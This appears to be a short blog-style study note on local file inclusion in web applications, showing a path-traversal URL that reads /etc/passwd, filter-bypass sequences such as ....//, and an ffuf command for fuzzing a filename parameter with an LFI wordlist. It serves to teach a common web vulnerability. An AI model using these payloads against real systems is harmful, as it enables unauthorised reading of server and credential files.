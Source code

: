 ```yaml
---
layout: blog
type: blog
title: Web Application Security - Local File Inclusion
permalink: blog/web-lfi
# All dates must be YYYY-MM-DD format!
date: 2021-11-15
labels:
  - fuzzing
---
```


## Reading arbitrary files

 Consider a shopping application that displays images of items for sale. Images are loaded via some HTML like the following:

```html
<img src="/loadImage?filename=218.png">

use
https://insecure-website.com/loadImage?filename=../../../etc/passwd
```

This causes the application to read from the following file path:

```txt
/var/www/images/../../../etc/passwd 
```

## Common obstacles

- absolute path block
- stripped sequences non-recursively: use sequences like ....// or ....\\/
- stripped sequences with URL-decode: use non-standard encodings
- validation of start of path
- 

Generally it can be fuzzed using ffuf and a wordlist like LFI_jhaddix.txt

```shell
ffuf -u "vulnerable-site.net/image?filename=FUZZ" -w LFI-Jhaddix.txt
```
